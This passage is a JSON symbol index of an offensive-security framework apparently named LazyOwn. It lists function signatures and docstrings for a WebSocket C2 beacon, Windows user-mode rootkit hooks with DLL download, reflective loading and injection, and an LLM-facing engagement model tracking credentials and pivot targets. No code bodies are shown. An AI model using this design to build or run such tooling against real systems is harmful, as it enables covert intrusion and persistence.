"name": "_collect_daemon_status", "signature": "def _collect_daemon_status(self)"}, {"kind": "method", "line": 133, "name": "_collect_live_graph", "signature": "def _collect_live_graph(self)"}, {"kind": "method", "line": 145, "name": "_collect_graph_advice", "signature": "def _collect_graph_advice(self)"}, {"kind": "method", "line": 163, "name": "_collect_dashboard", "signature": "def _collect_dashboard(self)"}, {"doc": "Render the unified dashboard as a text string for CLI/TUI.\n\nReturns:\n    A multi-line ASCII dashboard string.", "kind": "method", "line": 173, "name": "render_unified", "signature": "def render_unified(self)"}, {"doc": "Export the unified snapshot as a JSON string.", "kind": "method", "line": 254, "name": "export_json", "signature": "def export_json(self)"}]}, {"doc": "Nombre del script: update_db.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. update_db Licencia: GPL v3   Banner", "id": "modules/update_db.sh", "kind": "module", "label": "update_db.sh", "language": "sh", "sha256": "d53787b616a889ac", "symbol_count": 0, "symbols": []}, {"id": "modules/venator.py", "kind": "module", "label": "venator.py", "language": "py", "sha256": "94a84b29e8d5a214", "symbol_count": 34, "symbols": [{"kind": "function", "line": 38, "name": "getUUID", "signature": "def getUUID()"}, {"kind": "function", "line": 66, "name": "getSystemInfo", "signature": "def getSystemInfo(output_file)"}, {"kind": "function", "line": 83, "name": "getVTResult", "signature": "def getVTResult(fileHash)"}, {"kind": "function", "line": 112, "name": "getHash", "signature": "def getHash(file, ignoreVFlag)"}, {"kind": "function", "line": 132, "name": "checkSignature", "signature": "def checkSignature(file, bundle)"}, {"kind": "function", "line": 210, "name": "datetime_handler", "signature": "def datetime_handler(x)"}, {"kind": "function", "line": 215, "name": "parseAgentsDaemons", "signature": "def parseAgentsDaemons(item, path)"}, {"kind": "function", "line": 287, "name": "getLaunchAgents", "signature": "def getLaunchAgents(path, output_file, ignoreVFlag)"}, {"kind": "function", "line": 302, "name": "getLaunchDaemons", "signature": "def getLaunchDaemons(path, output_file, ignoreVFlag)"}, {"kind": "function", "line": 317, "name": "getUsers", "signature": "def getUsers(output_file)"}, {"kind": "function", "line": 338, "name": "getSafariExtensions", "signature": "def getSafariExtensions(path, output_file)"}, {"kind": "function", "line": 357, "name": "getChromeExtensions", "signature": "def getChromeExtensions(path, output_file)"}, {"kind": "function", "line": 388, "name": "getChromeDownloads", "signature": "def getChromeDownloads(chromeHistoryDbPath, output_file)"}, {"kind": "function", "line": 442, "name": "getFirefoxExtensions", "signature": "def getFirefoxExtensions(path, output_file)"}, {"kind": "function", "line": 477, "name": "getInstallHistory", "signature": "def getInstallHistory(output_file)"}, {"kind": "function", "line": 494, "name": "getCronJobs", "signature": "def getCronJobs(users, output_file)"}, {"kind": "function", "line": 513, "name": "getEmond", "signature": "def getEmond(output_file)"}, {"kind": "function", "line": 530, "name": "getKext", "signature": "def getKext(sipStatus, kextPath, output_file, ignoreVFlag)"}, {"kind": "function", "line": 577, "name": "getEnv", "signature": "def getEnv(output_file)"}, {"kind": "function", "line": 592, "name": "getPeriodicScripts", "signature": "def getPeriodicScripts(output_file)"}, {"kind": "function", "line": 609, "name": "getConnections", "signature": "def getConnections(output_file)"}, {"kind": "function", "line": 637, "name": "SIPStatus", "signature": "def SIPStatus(output_file)"}, {"kind": "function", "line": 651, "name": "GatekeeperStatus", "signature": "def GatekeeperStatus(output_file)"}, {"kind": "function", "line": 663, "name": "parseApp", "signature": "def parseApp(app, ignoreVFlag)"}, {"kind": "function", "line": 706, "name": "getLoginItems", "signature": "def getLoginItems(path, output_file, ignoreVFlag)"}, {"kind": "function", "line": 741, "name": "getApps", "signature": "def getApps(path, output_file, ignoreVFlag)"}, {"kind": "function", "line": 763, "name": "getEventTaps", "signature": "def getEventTaps(output_file)"}, {"kind": "function", "line": 786, "name": "getBashHistory", "signature": "def getBashHistory(output_file, users)"}, {"kind": "function", "line": 804, "name": "getShellStartupScripts", "signature": "def getShellStartupScripts(users, output_file)"}, {"kind": "function", "line": 842, "name": "hmac_sha256", "signature": "def hmac_sha256(key, data)"}, {"kind": "function", "line": 846, "name": "amzn_sig", "signature": "def amzn_sig(secret_access_key, data, aws_region, aws_service)"}, {"kind": "function", "line": 856, "name": "amzn_canonical_req", "signature": "def amzn_canonical_req(filename_path, headers_list)"}, {"kind": "function", "line": 866, "name": "s3_upload", "signature": "def s3_upload(data, content_type, filename_path, access_key_id, secret_access_key, s3_bucket, aws_region)"}, {"kind": "function", "line": 49, "name": "io_key", "signature": "def io_key(keyname)"}]}, {"doc": "main.py", "id": "modules/vuln_bot_cli.py", "kind": "module", "label": "vuln_bot_cli.py", "language": "py", "sha256": "4348aded9e4716ed", "symbol_count": 2, "symbols": [{"kind": "function", "line": 10, "name": "parse_args", "signature": "def parse_args()"}, {"kind": "function", "line": 22, "name": "main", "signature": "def main()"}]}, {"doc": "vulnbot.py", "id": "modules/vulnbot.py", "kind": "module", "label": "vulnbot.py", "language": "py", "sha256": "3440806ef4ceb4e4", "symbol_count": 21, "symbols": [{"kind": "class", "line": 29, "name": "VulnBotCLI", "signature": "class VulnBotCLI"}, {"kind": "method", "line": 30, "name": "__init__", "signature": "def __init__(self, provider, mode, debug, script_path)"}, {"doc": "Instantiate the LLM backend mapped to ``self.provider``.\n\nReturns:\n    A configured :class:`AIModel` instance.\n\nRaises:\n    LLMBackendNotSupportedError: When ``self.provider`` does not\n        map to a known backend.\n    LLMBackendUnavailableError: When the resolved backend cannot\n        be constructed from the current environment.", "kind": "method", "line": 46, "name": "_load_model", "signature": "def _load_model(self)"}, {"doc": "Configura el agente con herramientas dinámicas", "kind": "method", "line": 61, "name": "_setup_agent", "signature": "def _setup_agent(self, script_path)"}, {"doc": "Registra herramientas de manejo de archivos", "kind": "method", "line": 83, "name": "_register_file_tools", "signature": "def _register_file_tools(self)"}, {"doc": "Carga herramientas desde script externo", "kind": "method", "line": 109, "name": "_load_external_tools", "signature": "def _load_external_tools(self, script_path)"}, {"doc": "Versión streaming para web (simplificada)", "kind": "method", "line": 136, "name": "_stream_agent_response", "signature": "def _stream_agent_response(self, prompt)"}, {"kind": "method", "line": 145, "name": "load_knowledge_base", "signature": "def load_knowledge_base(self)"}, {"kind": "method", "line": 151, "name": "save_knowledge_base", "signature": "def save_knowledge_base(self, kb)"}, {"kind": "method", "line": 155, "name": "get_relevant_knowledge", "signature": "def get_relevant_knowledge(self, prompt)"}, {"kind": "method", "line": 160, "name": "create_complex_prompt", "signature": "def create_complex_prompt(self, base_prompt, history, knowledge)"}, {"kind": "method", "line": 176, "name": "read_file_content", "signature": "def read_file_content(self, file_path)"}, {"kind": "method", "line": 182, "name": "load_event_config", "signature": "def load_event_config(self)"}, {"kind": "method", "line": 190, "name": "process_with_context", "signature": "def process_with_context(self, file_path, event)"}, {"kind": "method", "line": 206, "name": "stream_response", "signature": "def stream_response(self, prompt)"}, {"kind": "method", "line": 212, "name": "add_to_knowledge_base", "signature": "def add_to_knowledge_base(self, prompt, response)"}, {"doc": "Lista archivos en un directorio", "kind": "function", "line": 86, "name": "list_files", "signature": "def list_files(directory)"}, {"doc": "Lee contenido de un archivo", "kind": "function", "line": 90, "name": "read_file", "signature": "def read_file(path)"}, {"doc": "Crea o edita un archivo", "kind": "function", "line": 95, "name": "edit_file", "signature": "def edit_file(path, content, old_text)"}, {"kind": "function", "line": 139, "name": "generate", "signature": "def generate()"}, {"kind": "function", "line": 207, "name": "generate", "signature": "def generate()"}]}, {"doc": "WebSocket beacon transport for modern C2 channels.  Provides WebSocket-based beacon implementation and server-side handler that integrates with the LazyOwn C2 framework via Socket.IO events.", "id": "modules/websocket_beacon.py", "kind": "module", "label": "websocket_beacon.py", "language": "py", "sha256": "8a249e26ce607dee", "symbol_count": 21, "symbols": [{"doc": "WebSocket-based beacon for C2 communication.\n\nConnects to a WebSocket server with optional TLS and AES encryption.\nSupports jitter, sleep intervals, and task queuing.\n\nArgs:\n    server_url: WebSocket server URL (ws:// or wss://).\n    beacon_id: Unique beacon identifier. Auto-generated if None.\n    encryption_key: Optional AES encryption key (Fernet format).\n    sleep_seconds: Base sleep time between check-ins.\n    jitter_percent: Random jitter percentage added to sleep time.\n    ssl_verify: Whether to verify TLS certificates.\n    proxy: Optional HTTP/SOCKS proxy URL.", "kind": "class", "line": 46, "name": "WebSocketBeacon", "signature": "class WebSocketBeacon"}, {"doc": "Server-side WebSocket handler for receiving beacon connections.\n\nIntegrates with the LazyOwn C2 framework via callback hooks.\n\nArgs:\n    host: Bind address.\n    port: Bind port.\n    ssl_context: Optional SSL context for TLS.\n    beacon_callback: Callable invoked when a beacon connects.\n    task_callback: Callable invoked when beacon requests tasks.\n    result_callback: Callable invoked when beacon sends results.", "kind": "class", "line": 274, "name": "WebSocketC2Handler", "signature": "class WebSocketC2Handler"}, {"kind": "method", "line": 62, "name": "__init__", "signature": "def __init__(self, server_url, beacon_id, encryption_key, sleep_seconds, jitter_percent, ssl_verify, proxy)"}, {"doc": "Encrypt data using Fernet if available.", "kind": "method", "line": 91, "name": "_encrypt", "signature": "def _encrypt(self, data)"}, {"doc": "Decrypt data using Fernet if available.", "kind": "method", "line": 97, "name": "_decrypt", "signature": "def _decrypt(self, data)"}, {"doc": "Build a JSON message with encryption.", "kind": "method", "line": 103, "name": "_build_message", "signature": "def _build_message(self, msg_type, payload)"}, {"doc": "Sleep with jitter to avoid predictable check-in patterns.", "kind": "method", "line": 114, "name": "_jittered_sleep", "signature": "def _jittered_sleep(self)"}, {"doc": "Establish WebSocket connection to the C2 server.\n\nReturns:\n    bool: True if connected successfully.", "kind": "method", "line": 122, "name": "connect", "signature": "def connect(self)"}, {"doc": "Send heartbeat and retrieve pending tasks.\n\nReturns:\n    Task dict if tasks are pending, None otherwise.", "kind": "method", "line": 157, "name": "check_in", "signature": "def check_in(self)"}, {"doc": "Send command execution result back to C2.\n\nArgs:\n    task_id: ID of the task being reported.\n    output: Command output.\n    exit_code: Exit code of the command.", "kind": "method", "line": 191, "name": "send_result", "signature": "def send_result(self, task_id, output, exit_code)"}, {"doc": "Main beacon loop with check-in and command execution.\n\nArgs:\n    command_handler: Callable that takes a command string and returns\n                     (output, exit_code). Uses os.popen if None.", "kind": "method", "line": 214, "name": "run", "signature": "def run(self, command_handler)"}, {"doc": "Gracefully shutdown the beacon.", "kind": "method", "line": 263, "name": "shutdown", "signature": "def shutdown(self)"}, {"kind": "method", "line": 288, "name": "__init__", "signature": "def __init__(self, host, port, ssl_context, beacon_callback, task_callback, result_callback)"}, {"doc": "Handle an incoming WebSocket connection from a beacon.\n\nArgs:\n    websocket: The connected WebSocket.\n    path: Connection path.", "kind": "method", "line": 310, "name": "_handle_connection", "signature": "def _handle_connection(self, websocket, path)"}, {"doc": "Start the WebSocket C2 server.", "kind": "method", "line": 382, "name": "start", "signature": "def start(self)"}, {"doc": "Stop the WebSocket C2 server.", "kind": "method", "line": 392, "name": "stop", "signature": "def stop(self)"}, {"doc": "Start the WebSocket C2 server in a background thread.\n\nReturns:\n    The daemon thread running the server.", "kind": "method", "line": 399, "name": "start_in_thread", "signature": "def start_in_thread(self)"}, {"doc": "Run the asyncio event loop in a thread.", "kind": "method", "line": 410, "name": "_run_loop", "signature": "def _run_loop(self, loop)"}, {"doc": "Send a command task to a specific beacon.\n\nArgs:\n    beacon_id: Target beacon ID.\n    command: Command to execute.\n\nReturns:\n    bool: True if task was queued for delivery.", "kind": "method", "line": 416, "name": "send_task", "signature": "def send_task(self, beacon_id, command)"}, {"doc": "List all connected beacons.\n\nReturns:\n    List of beacon info dicts.", "kind": "method", "line": 447, "name": "list_beacons", "signature": "def list_beacons(self)"}, {"doc": "Remove beacons that have not checked in within the timeout.\n\nArgs:\n    timeout: Inactivity timeout in seconds.\n\nReturns:\n    List of removed beacon IDs.", "kind": "method", "line": 464, "name": "remove_stale_beacons", "signature": "def remove_stale_beacons(self, timeout)"}]}, {"id": "modules/win_rootkit/backup.c", "kind": "module", "label": "backup.c", "language": "c", "sha256": "339dde6872ccd0a6", "symbol_count": 17, "symbols": [{"kind": "struct", "line": 27, "name": "Command"}, {"kind": "struct", "line": 33, "name": "VirtualFile"}, {"kind": "function", "line": 66, "name": "elp", "signature": "void elp()"}, {"kind": "function", "line": 86, "name": "ensure_pid_file_exists", "signature": "void ensure_pid_file_exists()"}, {"kind": "function", "line": 123, "name": "ensure_key_file_exists", "signature": "void ensure_key_file_exists()"}, {"kind": "function", "line": 150, "name": "ensure_hide_file_exists", "signature": "void ensure_hide_file_exists()"}, {"kind": "function", "line": 179, "name": "infect_command", "signature": "void infect_command()"}, {"kind": "function", "line": 204, "name": "handle_client", "signature": "DWORD WINAPI handle_client(LPVOID client_socket)"}, {"kind": "function", "line": 430, "name": "monitor_shell", "signature": "DWORD WINAPI monitor_shell(LPVOID data)"}, {"kind": "function", "line": 540, "name": "main", "signature": "int main()"}, {"kind": "macro", "line": 17, "name": "PORT", "signature": "#define PORT"}, {"kind": "macro", "line": 18, "name": "BUFFER_SIZE", "signature": "#define BUFFER_SIZE"}, {"kind": "macro", "line": 19, "name": "MAX_COMMANDS", "signature": "#define MAX_COMMANDS"}, {"kind": "macro", "line": 20, "name": "PID_FILE", "signature": "#define PID_FILE"}, {"kind": "macro", "line": 21, "name": "HIDE_FILE", "signature": "#define HIDE_FILE"}, {"kind": "macro", "line": 22, "name": "KEY_FILE", "signature": "#define KEY_FILE"}, {"kind": "macro", "line": 24, "name": "PASSWORD", "signature": "#define PASSWORD"}]}, {"id": "modules/win_rootkit/mrhyde.c", "kind": "module", "label": "mrhyde.c", "language": "c", "sha256": "4f0060e08f39f590", "symbol_count": 18, "symbols": [{"doc": "Define the RunExperiment function", "kind": "function", "line": 19, "name": "RunExperiment", "signature": "void __cdecl RunExperiment()"}, {"kind": "function", "line": 24, "name": "load_hidden_pids", "signature": "void load_hidden_pids()"}, {"kind": "function", "line": 47, "name": "load_hidden_files", "signature": "void load_hidden_files()"}, {"kind": "function", "line": 89, "name": "FindProcessId", "signature": "DWORD FindProcessId(const char* processName)"}, {"kind": "function", "line": 115, "name": "HideProcessByPID", "signature": "void HideProcessByPID(DWORD pid)"}, {"kind": "function", "line": 137, "name": "search_pid", "signature": "BOOL search_pid()"}, {"kind": "function", "line": 147, "name": "should_hide_pid", "signature": "BOOL should_hide_pid(DWORD pid)"}, {"kind": "function", "line": 161, "name": "should_hide_file", "signature": "BOOL should_hide_file(const char* filename)"}, {"doc": "Hook para FindFirstFile", "kind": "function", "line": 171, "name": "HookedFindFirstFile", "signature": "HANDLE WINAPI HookedFindFirstFile(LPCSTR lpFileName, LPWIN32_FIND_DATA lpFindFileData)"}, {"doc": "Hook para FindNextFile", "kind": "function", "line": 180, "name": "HookedFindNextFile", "signature": "BOOL WINAPI HookedFindNextFile(HANDLE hFindFile, LPWIN32_FIND_DATA lpFindFileData)"}, {"doc": "Hook para CreateToolhelp32Snapshot", "kind": "function", "line": 189, "name": "HookedCreateToolhelp32Snapshot", "signature": "HANDLE WINAPI HookedCreateToolhelp32Snapshot(DWORD dwFlags, DWORD th32ProcessID)"}, {"doc": "Hook para Process32First", "kind": "function", "line": 198, "name": "HookedProcess32First", "signature": "BOOL WINAPI HookedProcess32First(HANDLE hSnapshot, LPPROCESSENTRY32 lppe)"}, {"doc": "Hook para Process32Next", "kind": "function", "line": 210, "name": "HookedProcess32Next", "signature": "BOOL WINAPI HookedProcess32Next(HANDLE hSnapshot, LPPROCESSENTRY32 lppe)"}, {"doc": "Función para realizar el hooking de las funciones", "kind": "function", "line": 222, "name": "HookFunctions", "signature": "void HookFunctions()"}, {"kind": "function", "line": 272, "name": "DllMain", "signature": "BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)"}, {"kind": "macro", "line": 7, "name": "MAX_HIDE_PIDS", "signature": "#define MAX_HIDE_PIDS"}, {"kind": "macro", "line": 8, "name": "PID_FILE_PATH", "signature": "#define PID_FILE_PATH"}, {"kind": "macro", "line": 9, "name": "FILE_HIDE_PATH", "signature": "#define FILE_HIDE_PATH"}]}, {"id": "modules/win_rootkit/win_rin3_rootkit.cs", "kind": "module", "label": "win_rin3_rootkit.cs", "language": "cs", "sha256": "098a9a0943351dfd", "symbol_count": 10, "symbols": [{"kind": "class", "line": 32, "name": "WinRing3Rootkit"}, {"kind": "class", "line": 47, "name": "WIN32_FIND_DATA"}, {"kind": "class", "line": 64, "name": "SECURITY_ATTRIBUTES"}, {"kind": "class", "line": 123, "name": "TOKEN_USER"}, {"kind": "class", "line": 129, "name": "SID_AND_ATTRIBUTES"}, {"kind": "class", "line": 136, "name": "SID"}, {"kind": "method", "line": 145, "name": "GetUsernameFromPid"}, {"kind": "method", "line": 203, "name": "ShouldHidePid"}, {"kind": "method", "line": 214, "name": "HookFindFirstFile"}, {"kind": "method", "line": 226, "name": "HookCreateFile"}]}, {"id": "modules/win_rootkit/win_ring3_rootkit.c", "kind": "module", "label": "win_ring3_rootkit.c", "language": "c", "sha256": "4dae392256a96478", "symbol_count": 27, "symbols": [{"kind": "struct", "line": 28, "name": "Command"}, {"kind": "struct", "line": 34, "name": "VirtualFile"}, {"kind": "struct", "line": 40, "name": "PIDArray"}, {"kind": "function", "line": 79, "name": "DownloadDLL", "signature": "BOOL DownloadDLL(const char* url, PBYTE* buffer, DWORD* size)"}, {"kind": "function", "line": 99, "name": "ReflectiveLoadDLL", "signature": "BOOL ReflectiveLoadDLL(PBYTE dllBuffer, DWORD dllSize)"}, {"doc": "Función para inicializar el arreglo de PIDs", "kind": "function", "line": 146, "name": "initPIDArray", "signature": "void initPIDArray(PIDArray *array)"}, {"doc": "Función para agregar un PID al arreglo", "kind": "function", "line": 153, "name": "addPID", "signature": "void addPID(PIDArray *array, DWORD pid)"}, {"doc": "Función para liberar la memoria del arreglo de PIDs", "kind": "function", "line": 162, "name": "freePIDArray", "signature": "void freePIDArray(PIDArray *array)"}, {"kind": "function", "line": 166, "name": "getPIDsFromTasklist", "signature": "void getPIDsFromTasklist(PIDArray *pidArray)"}, {"kind": "function", "line": 191, "name": "AddDllToAppInitDLLs", "signature": "BOOL AddDllToAppInitDLLs(const char* dllPath)"}, {"kind": "function", "line": 240, "name": "GetProcessIdByName", "signature": "DWORD GetProcessIdByName(const char* processName)"}, {"kind": "function", "line": 270, "name": "Gifted", "signature": "BOOL Gifted(DWORD processId, const char* dllPath)"}, {"kind": "function", "line": 362, "name": "elp", "signature": "void elp()"}, {"kind": "function", "line": 382, "name": "ensure_pid_file_exists", "signature": "void ensure_pid_file_exists()"}, {"kind": "function", "line": 419, "name": "ensure_key_file_exists", "signature": "void ensure_key_file_exists()"}, {"kind": "function", "line": 446, "name": "ensure_hide_file_exists", "signature": "void ensure_hide_file_exists()"}, {"kind": "function", "line": 475, "name": "giveGift", "signature": "BOOL giveGift()"}, {"kind": "function", "line": 526, "name": "handle_client", "signature": "DWORD WINAPI handle_client(LPVOID client_socket)"}, {"kind": "function", "line": 755, "name": "monitor_shell", "signature": "DWORD WINAPI monitor_shell(LPVOID data)"}, {"kind": "function", "line": 865, "name": "main", "signature": "int main()"}, {"kind": "macro", "line": 18, "name": "PORT", "signature": "#define PORT"}, {"kind": "macro", "line": 19, "name": "BUFFER_SIZE", "signature": "#define BUFFER_SIZE"}, {"kind": "macro", "line": 20, "name": "MAX_COMMANDS", "signature": "#define MAX_COMMANDS"}, {"kind": "macro", "line": 21, "name": "PID_FILE", "signature": "#define PID_FILE"}, {"kind": "macro", "line": 22, "name": "HIDE_FILE", "signature": "#define HIDE_FILE"}, {"kind": "macro", "line": 23, "name": "KEY_FILE", "signature": "#define KEY_FILE"}, {"kind": "macro", "line": 25, "name": "PASSWORD", "signature": "#define PASSWORD"}]}, {"id": "modules/win_rootkit/win_ring3_rootkit.cpp", "kind": "module", "label": "win_ring3_rootkit.cpp", "language": "cpp", "sha256": "db3b2f1777512f12", "symbol_count": 9, "symbols": [{"kind": "function", "line": 42, "name": "get_username_from_pid", "signature": "char* get_username_from_pid(DWORD pid)"}, {"kind": "function", "line": 65, "name": "should_hide_pid", "signature": "int should_hide_pid(const char* pid)"}, {"kind": "function", "line": 75, "name": "hook_FindFirstFile", "signature": "HANDLE WINAPI hook_FindFirstFile(CONST char* path, WIN32_FIND_DATA* find_data)"}, {"kind": "function", "line": 85, "name": "hook_CreateFile", "signature": "HANDLE WINAPI hook_CreateFile(CONST char* path, DWORD access, DWORD share, LPSECURITY_ATTRIBUTES ..."}, {"kind": "function", "line": 94, "name": "DllMain", "signature": "BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)"}, {"kind": "macro", "line": 32, "name": "HIDDEN_DIR", "signature": "#define HIDDEN_DIR"}, {"kind": "macro", "line": 33, "name": "HIDDEN_FILE", "signature": "#define HIDDEN_FILE"}, {"kind": "macro", "line": 34, "name": "HIDE_USER", "signature": "#define HIDE_USER"}, {"kind": "macro", "line": 35, "name": "MAX_HIDE_PIDS", "signature": "#define MAX_HIDE_PIDS"}]}, {"id": "modules/wineconfig.sh", "kind": "module", "label": "wineconfig.sh", "language": "sh", "sha256": "677631909693f833", "symbol_count": 0, "symbols": []}, {"doc": "Confined workspace file browser for operators and loop agents.  All paths resolve inside ``sessions/workspace``; traversal attempts (``..``, absolute paths, symlink escapes) raise before any IO. The loop can route ``lazy_workspace read <path>`` steps through the same confined API, so agents inspect task artefacts without leaving the sandbox.", "id": "modules/workspace.py", "kind": "module", "label": "workspace.py", "language": "py", "sha256": "1cb813f2f995b1f6", "symbol_count": 7, "symbols": [{"doc": "Return (and create) the workspace root directory.", "kind": "function", "line": 21, "name": "root", "signature": "def root()"}, {"doc": "Resolve a workspace-relative path, refusing escapes.\n\nArgs:\n    rel: Relative path inside the workspace.\n\nReturns:\n    Absolute confined path.\n\nRaises:\n    PermissionError: Path escapes the workspace.", "kind": "function", "line": 27, "name": "resolve", "signature": "def resolve(rel)"}, {"doc": "List one directory with names, kinds and sizes.", "kind": "function", "line": 46, "name": "list_entries", "signature": "def list_entries(rel)"}, {"doc": "Read one file, truncated to the byte limit.", "kind": "function", "line": 63, "name": "read_text", "signature": "def read_text(rel, limit)"}, {"doc": "Write one file, creating parents; returns the character count.", "kind": "function", "line": 72, "name": "write_text", "signature": "def write_text(rel, content)"}, {"doc": "Create one directory (parents included).", "kind": "function", "line": 83, "name": "make_dir", "signature": "def make_dir(rel)"}, {"doc": "Delete a file or directory tree inside the workspace.", "kind": "function", "line": 90, "name": "remove", "signature": "def remove(rel)"}]}, {"doc": "modules/world_model.py ======================= Unified engagement world model for LazyOwn autonomous operations.  Tracks the state of every discovered host through a formal state machine, aggregates credentials and vulnerabilities, derives the current engagement phase, and produces a compact context string for LLM consumption.  Design principles ----------------- - Single Responsibility : each class owns exactly one domain concept - Open/Closed           : new host states or finding types via extension only - Dependency Inversion  : depends on Finding abstraction, not ObsParser directly - Thread-safe           : RLock guards all mutations; safe for Flask + MCP threads - Persistent            : auto-saves to sessions/world_model.json on every mutation  Usage ----- from modules.world_model import WorldModel, HostState  wm = WorldModel() wm.add_host(\"10.10.11.78\") wm.advance_host(  \"10.10.11.78\", HostState.SCANNED) wm.add_service(   \"10.10.11.78\", port=80, name=\"http\", version=\"Apache 2.4.49\") wm.add_credential(\"administrator:P@ssw0rd!\", host=\"10.10.11.78\")  print(wm.get_phase().value)       # -> \"exploitation\" print(wm.to_context_string())     # compact summary for LLM prompt", "id": "modules/world_model.py", "kind": "module", "label": "world_model.py", "language": "py", "sha256": "32e8b0896afaeea1", "symbol_count": 61, "symbols": [{"doc": "Derive a Fernet key from a password and salt (PBKDF2HMAC/SHA256).", "kind": "function", "line": 58, "name": "_derive_crypto_key", "signature": "def _derive_crypto_key(password, salt)"}, {"doc": "Return the shared master password for state-at-rest protection.", "kind": "function", "line": 67, "name": "_master_password", "signature": "def _master_password()"}, {"doc": "Read a world-model state dict, transparently decrypting at rest.\n\nPriority:\n    1. Plain ``world_model.json``.\n    2. Auto-encrypted ``world_model.json.encrypted`` (decrypted with\n       ``LAZYOWN_MASTER_PASSWORD`` and the persisted ``.auto_crypto_salt``).\n\nReturns an empty dict when no readable state exists.\n\nArgs:\n    path: Path to the plain state file.\n\nReturns:\n    The decoded JSON document as a dict.", "kind": "function", "line": 72, "name": "read_state_dict", "signature": "def read_state_dict(path)"}, {"doc": "Atomically write a world-model state dict as plaintext.\n\nWriting always produces a plain file while the operator is working;\nat-rest encryption is applied on application close by\n``modules.auto_crypto.AutoCryptoEngine``.\n\nArgs:\n    path: Destination plain state file path.\n    data: State document to serialise.\n\nReturns:\n    True when the write succeeded, False otherwise.", "kind": "function", "line": 118, "name": "write_state_dict", "signature": "def write_state_dict(path, data)"}, {"doc": "Ordered engagement states for a single host.", "kind": "class", "line": 151, "name": "HostState", "signature": "class HostState(StrEnum)"}, {"doc": "Derived from the aggregate host state across all targets.", "kind": "class", "line": 167, "name": "EngagementPhase", "signature": "class EngagementPhase(StrEnum)"}, {"kind": "class", "line": 179, "name": "ServiceInfo", "signature": "class ServiceInfo"}, {"kind": "class", "line": 188, "name": "CredentialEntry", "signature": "class CredentialEntry"}, {"kind": "class", "line": 197, "name": "VulnerabilityEntry", "signature": "class VulnerabilityEntry"}, {"kind": "class", "line": 206, "name": "EmailEntry", "signature": "class EmailEntry"}, {"kind": "class", "line": 214, "name": "DomainEntry", "signature": "class DomainEntry"}, {"doc": "A directed, typed relationship between two network nodes.\n\nNode naming convention:\n    host:<ip>          — a discovered host\n    user:<username>    — a user account\n    service:<name>     — a running service (e.g. service:smb)\n    cred:<hash>        — a captured credential (first 12 chars)", "kind": "class", "line": 222, "name": "NetworkRelation", "signature": "class NetworkRelation"}, {"doc": "Lightweight directed graph for network topology and lateral movement reasoning.\n\nTracks typed relationships between hosts, users, services, and credentials\nand exposes degree-centrality analysis to identify pivot points without\nrequiring an external graph library.\n\nDesign\n------\n- Single Responsibility : graph structure + centrality only; no I/O\n- Open/Closed           : new relation types added as data, not code\n- Thread-safe           : caller (WorldModel) holds its own RLock\n\nCentrality algorithm\n--------------------\nNormalized degree centrality:\n    C(v) = (in_degree(v) + out_degree(v)) / (2 * (N - 1))\n\nA node with high centrality is reachable by and can reach many others —\nan ideal pivot candidate for lateral movement.", "kind": "class", "line": 244, "name": "NetworkGraph", "signature": "class NetworkGraph"}, {"kind": "class", "line": 364, "name": "HostEntry", "signature": "class HostEntry"}, {"doc": "Derives the current EngagementPhase from the aggregate host states.\nKeeps the derivation logic isolated so it can be swapped or extended.", "kind": "class", "line": 416, "name": "_PhaseDeriver", "signature": "class _PhaseDeriver"}, {"doc": "Thread-safe, persistent engagement world model.\n\nMaintains hosts, credentials, vulnerabilities, and the derived phase.\nPersists state to sessions/world_model.json on every mutation.", "kind": "class", "line": 541, "name": "WorldModel", "signature": "class WorldModel"}, {"doc": "Return (or create) the module-level singleton WorldModel.\n\n``path`` defaults to the module's live :data:`_DEFAULT_PATH` at call\ntime rather than a captured import-time value, so callers (and tests)\nthat reassign ``_DEFAULT_PATH`` to redirect state get the redirect.", "kind": "function", "line": 1126, "name": "get_world_model", "signature": "def get_world_model(path)"}, {"kind": "method", "line": 160, "name": "rank", "signature": "def rank(self)"}, {"kind": "method", "line": 163, "name": "can_advance_to", "signature": "def can_advance_to(self, next_state)"}, {"kind": "method", "line": 267, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Add a directed edge. Duplicate edges accumulate (multi-graph).", "kind": "method", "line": 274, "name": "add_relation", "signature": "def add_relation(self, relation)"}, {"doc": "Return nodes reachable from *node* in one outbound hop.", "kind": "method", "line": 282, "name": "neighbors", "signature": "def neighbors(self, node)"}, {"doc": "Count edges pointing INTO *node*.", "kind": "method", "line": 286, "name": "in_degree", "signature": "def in_degree(self, node)"}, {"doc": "Count edges leaving *node*.", "kind": "method", "line": 290, "name": "out_degree", "signature": "def out_degree(self, node)"}, {"doc": "Return (node, centrality_score) pairs sorted descending by score.\nScore is normalized to [0.0, 1.0] over all discovered nodes.", "kind": "method", "line": 294, "name": "degree_centrality", "signature": "def degree_centrality(self)"}, {"doc": "Return the *top_k* highest-centrality nodes as pivot candidates.\nThe returned list is suitable for injection into an LLM prompt as\nstrategic network context.", "kind": "method", "line": 309, "name": "pivot_candidates", "signature": "def pivot_candidates(self, top_k)"}, {"kind": "method", "line": 331, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 348, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"kind": "method", "line": 373, "name": "add_service", "signature": "def add_service(self, svc)"}, {"doc": "Advance state only if new_state is the next valid step. Returns True if changed.", "kind": "method", "line": 377, "name": "advance", "signature": "def advance(self, new_state)"}, {"kind": "method", "line": 385, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 397, "name": "from_dict", "signature": "def from_dict(cls, d)"}, {"kind": "method", "line": 430, "name": "derive", "signature": "def derive(self, hosts)"}, {"kind": "method", "line": 549, "name": "__init__", "signature": "def __init__(self, path)"}, {"kind": "method", "line": 565, "name": "add_host", "signature": "def add_host(self, ip)"}, {"doc": "Clear a single host's state back to UNSCANNED for a fresh scan. Retains other hosts.\n\nArgs:\n    ip: Target host IP address.", "kind": "method", "line": 573, "name": "reset_host", "signature": "def reset_host(self, ip)"}, {"kind": "method", "line": 583, "name": "advance_host", "signature": "def advance_host(self, ip, new_state)"}, {"kind": "method", "line": 592, "name": "add_service", "signature": "def add_service(self, ip, port, name, version, protocol)"}, {"kind": "method", "line": 609, "name": "add_note", "signature": "def add_note(self, ip, note)"}, {"doc": "Set the operating system hint for a host.\n\nArgs:\n    ip: Target host IP address.\n    os_hint: OS name hint (``\"linux\"``, 